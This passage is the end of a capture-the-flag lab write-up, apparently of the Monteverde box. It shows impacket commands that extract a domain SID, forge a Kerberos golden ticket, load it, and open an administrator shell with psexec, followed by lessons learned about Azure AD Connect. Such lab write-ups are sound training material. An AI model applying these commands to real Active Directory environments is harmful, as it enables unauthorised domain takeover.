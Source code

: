 
### Creating a Golden Ticket: {#creating-a-golden-ticket}

1.  **Using** `impacket-lookupsid` **to extract the domain** `SID`:
    -   `impacket-lookupsid $domain/administrator@$box -domain-sids`
    -   {{< figure src="/ox-hugo/2024-10-14-133649_.png" >}}

2.  **I use** `impacket-ticketer` **to create the ticket**:
    -   {{< figure src="/ox-hugo/2024-10-14-135546_.png" >}}
    -   It kicks out a bunch of errors but creates the `administrator.ccache`

3.  **I load the ticket into the** `KRB5CCNAME` **Variable**:
    -   `export KRB5CCNAME=./administrator.ccache`
    -   {{< figure src="/ox-hugo/2024-10-14-135651_.png" >}}

4.  **I sync my clock with the target**:
    -   `sudo ntpdate -s monteverde.$domain`
    -   {{< figure src="/ox-hugo/2024-10-14-140010_.png" >}}

5.  **I connect using** `impacket-psexec`:
    -   `impacket-psexec monteverde.$domain -k`
    -   {{< figure src="/ox-hugo/2024-10-14-135821_.png" >}}


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I learned ALOT about Azure AD Connect. I would not have been able to do this without the post from `xpn`:
    -   <https://blog.xpnsec.com/azuread-connect-for-redteam/>
2.  Honestly so much about the AD Connect service. I have done a more thorough writeup and have actually broken down `xpn`'s exploit in this post:
    -   <https://bloodstiller.com/articles/azureadconnect/>


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Not too bad this time, it was more about just getting my head around Azure AD Connect and understanding XPN's script took me the longest


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me


